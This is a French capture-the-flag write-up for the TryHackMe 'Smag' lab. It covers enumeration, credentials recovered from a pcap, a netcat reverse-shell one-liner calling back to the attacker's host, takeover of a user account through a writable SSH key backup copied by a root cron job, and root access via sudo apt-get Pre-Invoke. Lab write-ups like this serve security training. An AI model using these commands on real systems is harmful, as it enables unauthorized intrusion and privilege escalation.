 # Smag
Bon petit chall facile !

# Enumeration
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 07:49 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for 10.10.141.12
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.14 seconds
```
## Gobuster 
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 311] [--> http://10.10.141.12/mail/]

```

## Exploit
On trouve donc une page /mail. On va voir ce qu'elle contient.
On retrouve un fichier .pcap, et les mails parle d'un bug pendant le download du fichier, peut-être une piste ?

## .pcap
On y retrouve une connexion sur le site **development.smag.thm**
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=c***********0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
On retrouve donc :

Un domaine : 
```
development.smag.thm
```
Un compte : 
```
username=helpdesk
password=c********0w
```
On va donc ajouter ce domaine dans le fichier hosts et voir un peu ce qu'il y a derriere....

On arrive sur un webshell une fois log.
# Exploitation
Vu qu'on a accès a un webshell, on va s'ouvrir un rshell plus sympa.

Payload :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.59.209 1234 >/tmp/f
```
Et nous voila sur le serveur
```
──(kali㉿kali)-[~/Challenge/TryHackMe/Smag]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.141.12] 42934
bash: cannot set terminal process group (707): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ 

```
# Posst exploitation
En regardant un peu sur la machine, je vois dans les taches cron la copie d'une clé ssh public
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/swbWX1dogZPCFYn8Ys3P7oNPyzXS6ku72pviGs5kQsxNWpPY94bt2zvd1J6tBw5g64ox3BhCG4cUvuI5zEi7y+xnIiTs5/MoF/gjQ2IdNDdvMs/hDj4wc2x8TFLPlCmR1b/uHydkuvdtw9WzZN1O+Ax3yEkMfB........[REDACTED].......gt6WtPYxmtv1AHE4VdD6xFJrM5CGffGbYEQjvJoFX2+vSOCDEFZw1SjuajykOaEOfheuY96Ao3f41m2Sn7Y9XiDt1UP4/Ws+kxfpX2mN69+jsPYmIKY72MSSm27nWG3jRgvPZsFgFyE00ZTP5dtrmoNf0CbzQBriJUa596XEsSOMmcjgoVgQUIr+WYNGWXgpH8G+ipFP/5whaJiqPIfPfvEHbT4m5ZsSaXuDmKercFeRDs= kali@kali
```
Je constate aussi qu'on peu modifier le fichier comme on peu le voir ici:
```
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
je vais donc généré ma propre clé ssh pour avoir un accès sur le serveur.
```
ssh-keygen -t rsa -b 4096 -C "pwn@huehue.com"
```
ensuite, je copie la clé public dans le fichier jake_id_rsa.pub.backup, la tâche cron se chargera de la copier dans le fichier authorized_keys qui ce trouve dans le dossier /home/jake/.ssh.
```
echo "ma super clé secure" > jake_id_rsa.pub.backup
```
ensuite j'essaye de me connecté avec ma clé ssh:
```
ssh -i key jake@10.10.142.12
```
et me voici sur le serveur en ssh avec le compte de jake
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Smag/sshkey]
└─$ ssh -i key jake@10.10.141.12
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
````
On trouve ainsi le 1er flag :
```
jake@smag:~$ cat user.txt 
iusG********************U3j
```

## Privesc to root !
En regardant les droits avec **sudo -l**
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
On peux voir qu'il peux utilser **/usr/bin/apt-get** en tant que root, et sans mot de passe !

On peux donc invoquer un shell root en utilisant apt-get:
```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
uJr6zR******************BKz2T
```

